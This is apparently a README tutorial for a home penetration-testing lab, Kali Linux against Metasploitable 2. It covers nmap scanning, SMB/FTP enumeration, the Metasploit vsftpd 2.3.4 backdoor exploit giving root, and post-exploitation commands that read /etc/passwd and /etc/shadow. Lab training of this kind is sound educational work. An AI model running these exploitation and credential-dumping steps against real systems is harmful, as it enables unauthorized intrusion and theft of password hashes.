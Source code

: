 # 🛡️ A Detailed guide to setting up a safe and Real world penetration testing lab.
<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Attacker-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Target-Metasploitable-red?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Status-Active-orange?style=for-the-badge" />
</p>

---

## 🔹 Lab Overview

This lab provides a **safe, isolated, real-world environment** to practice penetration testing techniques from reconnaissance to post-exploitation.

**Lab Components:**

| Machine   | OS             | IP Address       | Role                        |
|----------|----------------|----------------|----------------------------|
| Attacker | Kali Linux     | 192.168.142.128 | Pentester machine          |
| Target   | Metasploitable 2 | 192.168.142.130 | Vulnerable machine         |

**Lab Objective:**  
- Simulate real-world penetration testing scenarios.  
- Gain hands-on experience with scanning, enumeration, exploitation, and reporting.  

## 🔹 Lab Setup

### 1. Requirements

* **Virtualization software:** VirtualBox or VMware
* **Attacker VM:** Kali Linux
* **Target VM:** Metasploitable 2
* **Network isolation:** Internal network or host-only adapter
* **Snapshots:** Take snapshots before starting

### 2. Network Configuration

1. Set VMs to **Host-Only Adapter**:

   * Attacker: 192.168.142.128
   * Target: 192.168.142.130
  ![VM Network Setup](https://i.ibb.co/r5Syjxz/vm-network-topology.png)

2. Verify connectivity:

```bash
ping 192.168.142.130
```

**Expected Output:**

```
64 bytes from 192.168.142.130: icmp_seq=1 ttl=64 time=0.123 ms
```

---

## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

```bash
whois 192.168.142.130
nslookup 192.168.142.130
```

* Collect IP, domain, and server info.
* No interaction with target.

#### Active Recon

```bash
nmap -sS -Pn 192.168.142.130
nmap -p- -A -T4 192.168.142.130
```

**Example Output:**

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
22/tcp   open  ssh     OpenSSH 4.7p1
23/tcp   open  telnet
80/tcp   open  http    Apache 2.2.8
139/tcp  open  netbios-ssn Samba smbd 3.X
445/tcp  open  netbios-ssn Samba smbd 3.X
```

---

### Step 2: Enumeration

#### FTP Enumeration

```bash
nc 192.168.142.130 21
```

* Check banner for service version.

```bash
ftp 192.168.142.130
# Attempt anonymous login
```

#### SMB Enumeration

```bash
smbclient -L \\192.168.142.130 -U guest
enum4linux -a 192.168.142.130
```

---

### Step 3: Vulnerability Analysis

* Use **Searchsploit** to identify exploits:

```bash
searchsploit vsftpd 2.3.4
searchsploit samba
```

* Check Metasploit modules:

```bash
msfconsole
search vsftpd
```

---

### Step 4: Exploitation

#### Example: FTP Backdoor

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
exploit
```

#### Verify Access

```bash
whoami
id
```

**Expected Output:**

```
uid=0(root) gid=0(root) groups=0(root)
```

---

### Step 5: Post-Exploitation

* System enumeration:

```bash
uname -a
cat /etc/passwd
ifconfig
```

* Privilege escalation check:

```bash
sudo -l
```

* Dump hashes or sensitive info (for lab purposes only):

```bash
cat /etc/shadow
```


### Step 6: Reporting

* Document all findings.
* Include screenshots and proof-of-concept.

**Report Template:**

| Vulnerability        | Exploit Used          | Impact              | Mitigation                                   |
| -------------------- | --------------------- | ------------------- | -------------------------------------------- |
| FTP Backdoor         | vsftpd 2.3.4          | Remote Shell Access | Upgrade FTP server / Disable anonymous login |
| SMB Misconfiguration | Metasploit smb module | Data Exposure       | Patch Samba / Restrict SMB access            |

---

## 🔹 Recommended Tools

| Tool                   | Purpose                           |
| ---------------------- | --------------------------------- |
| Nmap / Zenmap          | Port scanning & service discovery |
| Netcat                 | Banner grabbing & connectivity    |
| Metasploit             | Exploit development & execution   |
| Nikto / Dirb           | Web vulnerability scanning        |
| Enum4linux / smbclient | Windows/SMB enumeration           |
| Wireshark              | Network traffic analysis          |

---

## 🔹 Best Practices

1. Always **take snapshots** before testing.
2. Use **isolated lab networks**.
3. Document each phase with screenshots and notes.
4. Never attack systems **without permission**.

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for **educational purposes only**. Unauthorized penetration testing is illegal and unethical.

